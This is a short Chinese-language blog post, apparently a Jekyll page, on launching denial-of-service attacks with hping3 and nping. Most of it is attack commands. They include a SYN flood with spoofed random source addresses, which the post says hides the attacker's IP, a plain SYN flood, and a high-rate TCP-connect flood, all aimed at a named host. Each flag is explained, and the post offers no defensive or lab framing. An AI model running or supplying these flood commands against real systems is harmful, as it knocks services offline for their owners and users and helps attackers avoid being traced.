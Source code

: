 ```yaml
---
layout: post
title: 使用hping3/nping施行DoS攻击
---
```


Wiki关于DoS攻击的解释：[Denial of Service Attack](https://zh.wikipedia.org/wiki/阻斷服務攻擊)

DDoS攻击是常见的攻击方式，每小时大约发生28次。<http://www.digitalattackmap.com>提供在世界范围内的DDoS实时攻击分布图：

![DoS攻击]({{ site.baseurl }}/images/2016/5/Screen Shot 2016-05-10 at 19.08.30.png)

从DDoS攻击的地图上就可以看出国际形势；例如，到9月18号可以看到日本－中国的攻击；川普宣布建墙之后，可以看到墨西哥－美国的攻击。

使用hping3进行DoS攻击：

{% highlight shell %}
# hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testsite.com
{% endhighlight %}

* -c：发送数据包的个数
* -d：每个数据包的大小
* -S：发送SYN数据包
* -w：TCP window大小
* -p：目标端口，你可以指定任意端口
* --flood：尽可能快的发送数据包
* --rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

简单的SYN洪水攻击：

{% highlight shell %}
# hping3 -S --flood -V testsite.com
{% endhighlight %}

TCP连接攻击：

{% highlight shell %}
# nping --tcp-connect -rate=90000 -c 900000 -q testsite.com
{% endhighlight %}

***

关于这两个工具的更多信息：

{% highlight shell %}
# man hping3
# man nping
{% endhighlight %}